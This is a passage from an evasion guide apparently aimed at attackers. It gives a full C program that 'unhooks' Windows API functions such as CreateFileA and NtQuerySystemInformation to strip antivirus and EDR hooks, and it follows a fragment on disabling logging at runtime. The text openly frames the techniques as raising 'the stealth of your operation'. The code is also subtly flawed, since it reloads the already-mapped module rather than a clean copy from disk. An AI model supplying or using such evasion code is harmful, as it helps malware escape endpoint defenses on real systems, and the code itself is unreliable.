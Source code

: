 ✅ Alters execution flow to disable logging at runtime
✅ Fast, stealthy, and effective for evasion


---

3️⃣ API Unhooking (Restoring API Functions to Remove AV Hooks)

💡 Security tools hook Windows API functions to detect malicious behavior. This technique restores the original API functions to bypass detection.

Implementation (Unhooking Windows APIs)
```C
#include <windows.h>
#include <stdio.h>

void UnhookFunction(const char* moduleName, const char* functionName) {
    // Load the module
    HMODULE hModule = GetModuleHandleA(moduleName);
    if (!hModule) return;

    // Get function address from disk
    HMODULE hModuleOnDisk = LoadLibraryA(moduleName);
    void* pOriginalFunc = GetProcAddress(hModuleOnDisk, functionName);

    // Get function address in memory
    void* pHookedFunc = GetProcAddress(hModule, functionName);

    // Restore original function bytes
    DWORD oldProtect;
    VirtualProtect(pHookedFunc, 16, PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(pHookedFunc, pOriginalFunc, 16);
    VirtualProtect(pHookedFunc, 16, oldProtect, &oldProtect);
}

int main() {
    // Unhook common security functions
    UnhookFunction("kernel32.dll", "CreateFileA");
    UnhookFunction("ntdll.dll", "NtQuerySystemInformation");

    MessageBoxA(NULL, "API Unhooking Completed!", "Evasion", MB_OK);
    return 0;
}
```
✅ Restores original Windows API functions
✅ Removes security hooks used by AV/EDR tools
✅ Bypasses detection mechanisms in monitored environments


This full set of techniques will significantly increase the stealth of your operation and help bypass common endpoint defenses.
